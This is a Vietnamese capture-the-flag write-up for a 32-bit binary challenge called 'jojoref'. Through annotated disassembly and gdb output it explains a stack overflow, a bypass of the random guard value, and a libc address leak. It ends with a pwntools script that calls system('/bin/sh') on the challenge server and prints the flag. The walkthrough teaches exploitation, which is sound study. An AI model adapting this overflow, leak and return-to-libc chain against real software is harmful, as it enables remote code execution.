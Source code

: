 **PZ**
---
Binary Exploitation

Description:
---
> Just a JoJo reference.

Solution:
---
Bài này thì khó hơn bài trước :joy: Chạy thử tiếp nào :point_down:

```bash
root@kali:~# ./jojoref
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: yes
[You said: yes]
Pwn: Oh ho... then come as close as you want
You: ok girl
root@kali:~#
```

Con này stripped rồi nên không dùng `gdb` để xem `main` được, dùng `objdump` hay cái gì đó khác nhé.
> Radare2, IDA hay Binary Ninja...
```asm
...

add     esp, 10h
mov     eax, ds:(stdout_ptr - 804A000h)[ebx]
mov     eax, [eax]
sub     esp, 8
push    0               ; buf
push    eax             ; stream
call    _setbuf
add     esp, 10h
call    sub_804872B
call    sub_8048676; <---| Chỗ này nhé, còn lại thì bình thường rồi.
mov     eax, 0
lea     esp, [ebp-8]
pop     ecx
pop     ebx
pop     ebp
lea     esp, [ecx-4]
retn
```

Xem hàm `sub_8048676` nào:
```asm
.text:08048676 buf             = byte ptr -1Ch
.text:08048676 var_C           = dword ptr -0Ch
.text:08048676 var_4           = dword ptr -4

...

.text:08048688                 mov     eax, offset unk_804A040; <--- Biết địa chỉ này không? Xem hàm trước đó để biết nhé
.text:0804868E                 mov     eax, [eax]
.text:08048690                 mov     [ebp+var_C], eax; <--- Lấy số random lưu vào [ebp+var_C]
.text:08048693                 sub     esp, 0Ch
.text:08048696                 lea     eax, (aPwnOhYouReAppr - 804A000h)[ebx] ; "Pwn: Oh? You're approaching me? Instead"...
.text:0804869C                 push    eax             ; s
.text:0804869D                 call    _puts
.text:080486A2                 add     esp, 10h
.text:080486A5                 sub     esp, 0Ch
.text:080486A8                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:080486AE                 push    eax             ; format
.text:080486AF                 call    _printf
.text:080486B4                 add     esp, 10h
.text:080486B7                 sub     esp, 8
.text:080486BA                 push    30h             ; nbytes <--- Lại cho nhập 0x30 bytes
.text:080486BC                 lea     eax, [ebp+buf]  ;        <--- Trong khi buffer chỉ có 0x1C bytes
.text:080486BF                 push    eax             ; buf
.text:080486C0                 call    sub_8048612     ;  <--- Hàm nhập và thay kí tự '\n' ở cuối chuỗi thành '\0'
.text:080486C5                 add     esp, 10h
.text:080486C8                 mov     eax, offset unk_804A040
.text:080486CE                 mov     eax, [eax]
.text:080486D0                 cmp     [ebp+var_C], eax ; <--- Kiểm tra lại xem số random lưu ở [ebp+var_C] có bị thay đổi không
.text:080486D3                 jz      short loc_80486DA  
.text:080486D5                 call    sub_80485B6  ; <--- Nếu đổi thì gọi hàm này

...
```
Xem nếu số random bị thay đổi thì ra cái gì nhé:
```asm
...
.text:080485C8                 sub     esp, 8
.text:080485CB                 push    0               ; oflag
.text:080485CD                 lea     eax, (aFlag - 804A000h)[ebx] ; "flag"
.text:080485D3                 push    eax             ; file
.text:080485D4                 call    _open  ; <--- Mở ra flag
.text:080485D9                 add     esp, 10h
.text:080485DC                 mov     [ebp+fd], eax
.text:080485DF                 cmp     [ebp+fd], 0
.text:080485E3                 js      short loc_8048608
.text:080485E5                 sub     esp, 4
.text:080485E8                 push    27h             ; nbytes
.text:080485EA                 lea     eax, [ebp+buf]
.text:080485ED                 push    eax             ; buf
.text:080485EE                 push    [ebp+fd]        ; fd
.text:080485F1                 call    _read  ; <--- Đọc ra flag
.text:080485F6                 add     esp, 10h
.text:080485F9                 sub     esp, 0Ch
.text:080485FC                 lea     eax, [ebp+buf]
.text:080485FF                 push    eax             ; s
.text:08048600                 call    _puts  ; <--- In ra flag, ez 15' gg :))
.text:08048605                 add     esp, 10h
...
```
Có vẻ như chỉ cần ghi đè qua `[ebp+var_C]` là ra flag. Ok đập phát chết luôn:
```bash
root@kali:~# python -c 'print "A"*18' | nc 3.91.78.13 10001
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?
You: PTITCTF{ Well yes , but actually no. }   # <--- Bị lừa rồi ... 

root@kali:~# 
```

Thôi lại xem tiếp nếu không gọi `sub_80485B6` thì `loc_80486DA` có cái gì :sweat_smile: :
```asm
...
.text:080486DA                 sub     esp, 8
.text:080486DD                 lea     eax, [ebp+buf]
.text:080486E0                 push    eax
.text:080486E1                 lea     eax, (aYouSaidS - 804A000h)[ebx] ; "[You said: %s]\n"
.text:080486E7                 push    eax             ; format
.text:080486E8                 call    _printf
.text:080486ED                 add     esp, 10h
.text:080486F0                 sub     esp, 0Ch
.text:080486F3                 lea     eax, (aPwnOhHoThenCom - 804A000h)[ebx] ; "Pwn: Oh ho... then come as close as you"...
.text:080486F9                 push    eax             ; s
.text:080486FA                 call    _puts
.text:080486FF                 add     esp, 10h
.text:08048702                 sub     esp, 0Ch
.text:08048705                 lea     eax, (aYou - 804A000h)[ebx] ; "You: "
.text:0804870B                 push    eax             ; format
.text:0804870C                 call    _printf
.text:08048711                 add     esp, 10h
.text:08048714                 sub     esp, 8
.text:08048717                 push    30h             ; nbytes
.text:08048719                 lea     eax, [ebp+buf]
.text:0804871C                 push    eax             ; buf
.text:0804871D                 call    sub_8048612 ; <--- Lại hàm nhập, giống như đoạn code trước khi jmp
.text:08048722                 add     esp, 10h
.text:08048725                 nop
.text:08048726                 mov     ebx, [ebp+var_4]
.text:08048729                 leave
.text:0804872A                 retn
```
Lần thứ 2 nhập thì không check số random, có lẽ nên khai thác vào chỗ này.

Bài này thì người ta cho sẵn chuỗi `"/bin/sh"` ở `0x8048890` rồi nên 
gợi ý là sẽ return về `system("/bin/sh")`. Cơ mà lại không cho địa chỉ của `system`, và server bật `ASLR` nên cần phải tính thông qua địa chỉ của hàm nào đó đã cho.

Để ý trong suốt quá trình hàm `sub_8048676` này làm việc không thấy đả động gì đến vị trí `[ebp-8]`, có gì đó mờ ám chăng ?
```shell
Breakpoint 1, 0x0804867a in ?? ()
gdb-peda$ x/x $ebp-8
0xffffd370:	0xf7fadd80
gdb-peda$ info proc map
process 1764
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /root/jojoref
	 0x8049000  0x804a000     0x1000        0x0 /root/jojoref
	 0x804a000  0x804b000     0x1000     0x1000 /root/jojoref
	0xf7dd3000 0xf7dec000    0x19000        0x0 /usr/lib32/libc-2.28.so # <--- địa chỉ cơ sở libc nhé
	0xf7dec000 0xf7f3a000   0x14e000    0x19000 /usr/lib32/libc-2.28.so
	0xf7f3a000 0xf7faa000    0x70000   0x167000 /usr/lib32/libc-2.28.so
	0xf7faa000 0xf7fab000     0x1000   0x1d7000 /usr/lib32/libc-2.28.so
  ...
  
gdb-peda$ p/x 0xf7fadd80-0xf7dd3000
$1 = 0x1dad80
gdb-peda$ quit
root@kali:~# readelf -s /usr/lib32/libc-2.28.so | grep 1dad80
   905: 001dad80   152 OBJECT  GLOBAL DEFAULT   31 _IO_2_1_stdout_@@GLIBC_2.1 # <--- :))
root@kali:~#
```
Rồi thế là xong, chạy nhiều lần thì nó vẫn ra hàm đấy thôi. Còn lưu ý nữa là con này biên dịch bằng `GCC 7.3.0` cho nên việc tính ra system có thể bị sai,
vì kali của mình đang chạy `GCC 8.3.0`, chuyển qua ubuntu cho chắc:
```bash
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep stdout
   783: 001d8ea0    80 OBJECT  GLOBAL DEFAULT   34 _IO_stdout_@@GLIBC_2.0
   895: 001d8d80   152 OBJECT  GLOBAL DEFAULT   34 _IO_2_1_stdout_@@GLIBC_2.1 # <--- Đây
  1168: 001d8e1c     4 OBJECT  GLOBAL DEFAULT   34 stdout@@GLIBC_2.0
zeltrax@z-pc:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   254: 00129640   102 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   652: 0003d200    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1510: 0003d200    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0 # <--- Và đây
zeltrax@z-pc:~$
```
Bài này phải xử lí run-time để leak ra `DWORD PTR [ebp-8]` nên phải code thôi:
```python
from pwn import *

#p = process("./jojoref")
p = remote('3.91.78.13', 10001)
s1 = "A"*16
print p.recvline()
print p.recv(5)

p.send(s1)

print p.recv(11+16)
urandom = p.recv(4)
ebp_8 = p.recv(4)

print "random: %s" % hex(u32(urandom))
print "$ebp-0x8: %s" % hex(u32(ebp_8))
system = u32(ebp_8)-(0x1d8d80-0x3d200)
print "system: %s" % hex(system)

s2 = "A"*32 + p32(system) + "JUNK" + p32(0x08048890)
print p.recvlines(2)
print p.recv(5)

p.sendline(s2)
p.interactive()
```
Nhớ flag fake không? Phải là flag2 cơ :grin:
```bash
[+] Opening connection to 3.91.78.13 on port 10001: Done
Pwn: Oh? You're approaching me? Instead of running away, you're coming right to me?

You: 
[You said: AAAAAAAAAAAAAAAA
random: 0xc09dc5bd
$ebp-0x8: 0xf7ecdd80
system: 0xf7d32200
]

Pwn: 
[*] Switching to interactive mode
Oh ho... then come as close as you want
You: $ cat flag2
PTITCTF{w3ll_y3s_0utst4nd1ng_m0v3_but_1t's_ill3g4l}
$ 
```
